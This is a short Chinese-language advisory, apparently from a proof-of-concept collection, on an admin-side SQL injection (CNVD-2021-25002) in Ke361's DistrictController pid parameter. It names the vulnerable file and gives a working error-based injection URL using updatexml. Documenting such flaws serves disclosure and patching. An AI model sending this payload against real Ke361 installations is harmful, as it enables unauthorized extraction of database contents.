 # Ke361 DistrictController.class.php 后台SQL注入漏洞 CNVD-2021-25002

## 漏洞描述

Ke361 DistrictController.class.php index() 函数 pid参数存在 SQL注入漏洞，通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
Ke361
```

## 环境搭建

https://gitee.com/jcove/ke361

## 漏洞复现

存在漏洞的文件为 `Application/Admin/Controller/DistrictController.class.php`

![image-20220518153238593](C:/Users/47236/AppData/Roaming/Typora/typora-user-images/image-20220518153238593.png)

验证POC

```
admin.php?s=/District/index/pid/1)%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+
```

![image-20220518153336344](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181533405.png)
